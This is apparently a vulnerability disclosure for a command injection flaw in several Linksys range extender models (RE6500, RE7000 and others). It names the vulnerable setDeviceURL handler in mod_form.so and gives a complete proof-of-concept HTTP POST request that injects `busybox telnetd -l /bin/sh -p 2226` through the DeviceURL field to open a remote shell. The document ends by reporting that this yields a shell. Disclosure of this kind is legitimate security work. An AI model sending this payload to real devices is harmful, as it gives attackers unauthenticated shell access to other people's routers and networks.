


# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setDeviceURL` function, `DeviceURL` is directly passed by the attacker, so we can control the `DeviceURL` to attack the OS.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `DeviceURL` as **`busybox telnetd -l /bin/sh -p 2226`** , and the router will excute it,such as:

```http
POST /goform/setDeviceURL HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=WU2wxPWkJ2bVXSRyNWO0cci74EJ5jgkF
Upgrade-Insecure-Requests: 1

DeviceURL=`busybox telnetd -l /bin/sh -p 2226`
```


## Result

Get a shell!

<div  align="center"></div>

